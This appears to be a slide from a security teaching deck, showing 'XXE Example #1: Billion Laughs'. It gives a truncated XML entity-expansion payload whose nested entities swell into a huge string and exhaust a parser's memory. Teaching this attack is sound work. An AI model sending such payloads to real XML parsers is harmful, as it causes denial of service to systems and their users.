

# XXE Example #1: Billion Laughs
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 ........
]>
<lolz>&lol100;</lolz>